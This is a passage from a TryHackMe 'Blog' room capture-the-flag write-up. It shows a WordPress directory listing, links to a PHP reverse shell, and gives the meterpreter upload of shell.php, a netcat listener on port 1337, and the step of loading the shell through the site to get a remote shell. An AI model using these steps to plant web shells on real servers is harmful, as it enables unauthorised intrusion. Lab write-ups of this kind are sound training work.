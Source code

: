 ```bash
100640/rw-r-----  19935  fil   2020-05-26 11:39:37 -0400  license.txt
100640/rw-r-----  7415   fil   2020-05-26 11:39:37 -0400  readme.html
100640/rw-r-----  5458   fil   2020-05-26 11:39:37 -0400  wp-activate.php
040750/rwxr-x---  4096   dir   2018-12-06 13:00:07 -0500  wp-admin
100640/rw-r-----  364    fil   2015-12-19 06:20:28 -0500  wp-blog-header.php
100640/rw-r-----  1889   fil   2018-05-02 18:11:25 -0400  wp-comments-post.php
100640/rw-r-----  2853   fil   2015-12-16 04:58:26 -0500  wp-config-sample.php
100640/rw-r-----  3279   fil   2020-05-27 23:49:17 -0400  wp-config.php
040750/rwxr-x---  4096   dir   2020-05-25 23:52:32 -0400  wp-content
100640/rw-r-----  3669   fil   2017-08-20 00:37:45 -0400  wp-cron.php
040750/rwxr-x---  12288  dir   2018-12-06 13:00:08 -0500  wp-includes
100640/rw-r-----  2422   fil   2016-11-20 21:46:30 -0500  wp-links-opml.php
100640/rw-r-----  3306   fil   2017-08-22 07:52:48 -0400  wp-load.php
100640/rw-r-----  37286  fil   2020-05-26 11:39:37 -0400  wp-login.php
100640/rw-r-----  8048   fil   2017-01-11 00:13:43 -0500  wp-mail.php
100640/rw-r-----  17421  fil   2018-10-23 03:04:39 -0400  wp-settings.php
100640/rw-r-----  30091  fil   2018-04-29 19:10:26 -0400  wp-signup.php
100640/rw-r-----  4620   fil   2017-10-23 18:12:51 -0400  wp-trackback.php
100640/rw-r-----  3065   fil   2016-08-31 12:31:29 -0400  xmlrpc.php
```

let’s try to upload a reverse shell in the above directory 

[https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) —> link to php reverse shell

```bash
meterpreter > upload shell.php
[*] Uploading  : /home/l33/blog/shell.php -> shell.php
[*] Uploaded -1.00 B of 3.82 KiB (-0.03%): /home/l33/blog/shell.php -> shell.php
[*] Completed  : /home/l33/blog/shell.php -> shell.php
```

Now we try to access the reverse shell using netcat

```bash
$ >.. nc -nlvp 1337        
Listening on 0.0.0.0 1337
```

we try to access blog.thm/shell.php so the reverse shell ca be executed

![Screenshot from 2023-09-30 05-23-07.png](Tryhackme%20blog%20room%2095a2025ae92d4b6a87d6e969275448d7/Screenshot_from_2023-09-30_05-23-07.png)
